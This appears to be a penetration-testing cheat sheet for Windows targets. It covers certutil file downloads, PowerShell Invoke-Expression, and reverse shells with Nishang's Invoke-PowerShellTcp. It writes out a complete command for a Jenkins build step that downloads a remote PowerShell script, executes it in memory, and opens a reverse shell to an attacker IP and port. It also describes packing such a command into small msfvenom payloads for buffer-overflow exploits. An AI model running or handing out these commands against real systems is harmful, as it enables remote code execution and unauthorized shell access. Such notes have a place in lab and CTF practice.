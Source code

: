 # Commands & Techniques useful in Windows boxes. 

1. **File Transfer**

We can utilize certutil for this

```
certutil -urlcache -f http://<IP Address>/<file name> saved_file

	-- where saved_file is the name of the file you want to save it as
```


2. **Powershell IEX**

IEX stands for Invoke-Expression and is a powerful way of evaluating or invoking any command via powershell. Something like
> **powershell -c iex("whoami")**  

This will essentially execute the whoami command via Powershell. Below are a couple of Good Resources to refresh on this at any time.
- [Microsoft Docs](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.1)
- [ss64](https://ss64.com/ps/invoke-expression.html)



3. **Reverse Shell through Nishang & IEX**

We can get a reverse shell through Nishang on a Windows system if we have the capacity to execute code on it somehow. 
This can be in scenarios such as
- We have access to some Jenkins server that has code execution on the target machine. Through Jenkins we can then execute the Powershell command laden with IEX to spawn a reverse shell

- We can spawn a Reverse Shell in limited scenarios even through MSFCONSOLE by using Nishang
	- Generate a payload on msfvenom using payload windows/exec and specifying what to execute through CMD=powershell with appropriate IEX
	- The advantage of this method is that the payload is extremely small - which helps in cases of Buffer Overflow that put a restriction on payload size


Nishang Script: Invoke-PowerShellTcp.ps1


	**Jenkins Server Example**

```
Inside the Build that allows for Batch Execution of Windows Command you can give a command like

**powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.12.172/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.12.172 -Port 1234
```


